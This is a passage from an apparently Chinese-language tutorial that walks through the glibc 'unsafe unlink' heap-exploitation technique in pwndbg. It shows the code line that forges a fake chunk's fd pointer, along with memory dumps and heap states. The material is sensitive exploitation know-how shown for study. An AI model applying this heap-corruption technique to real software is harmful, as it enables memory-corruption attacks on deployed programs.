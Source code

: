 ```
  bk_nextsize = 0x0
}
pwndbg&gt;
```

好嘞,我们到下一个断点处,没错,就是这个地方

```
► 28   chunk0_ptr[2] = (uint64_t) &amp;chunk0_ptr-(sizeof(uint64_t)*3);
```

程序的注释中说我们将fake_chunk的fd指向我们的chunk0_ptr,我们先看看这个所谓的chunk0_ptr[2]是个什么东西:

```
pwndbg&gt; p/x chunk0_ptr
$3 = 0x603010
pwndbg&gt; p/x chunk0_ptr[2]
$4 = 0x602058
pwndbg&gt; p/x &amp;chunk0_ptr
$5 = 0x602070
pwndbg&gt; x/10x 0x602070
0x602070 &lt;chunk0_ptr&gt;:  0x0000000000603010      0x0000000000000000
0x602080:       0x0000000000000000      0x0000000000000000
0x602090:       0x0000000000000000      0x0000000000000000
0x6020a0:       0x0000000000000000      0x0000000000000000
0x6020b0:       0x0000000000000000      0x0000000000000000
pwndbg&gt; x/10gx 0x603010
0x603010:       0x0000000000000000      0x0000000000000000
0x603020:       0x0000000000602058      0x0000000000000000
0x603030:       0x0000000000000000      0x0000000000000000
0x603040:       0x0000000000000000      0x0000000000000000
0x603050:       0x0000000000000000      0x0000000000000000
```

为便于理解,这里我一共输出了五样东西

可以看到,程序将chunk0_ptr[2]的值变成了chunk0_ptr-0x18的地址

记得之前所说的吗,我们需要在chunk0中伪造一个fake chunk

我们的chunk0_ptr是从0x603000开始的,但是我们要清楚的是给用户的指针却是从0x603010开始的(这其实也是glibc的机制,这里就不详述了).结合程序注释,这也就意味着我们所伪造的fake chunk要从0x603010开始,以0x603020为fd指针,以0x603028为bk指针

此时我们的fd指针已经伪造好了,下面我们直接结束伪造bk指针的部分,此时的堆

```
pwndbg&gt; heap
0x603000 PREV_INUSE {
  prev_size = 0,
  size = 145,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x602058,
  bk_nextsize = 0x602060 &lt;stderr@@GLIBC_2.2.5&gt;
}
0x603090 PREV_INUSE {
  prev_size = 0,
  size = 145,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
0x603120 PREV_INUSE {
  prev_size = 0,
  size = 134881,
  fd = 0x0,
  bk = 0x0,
```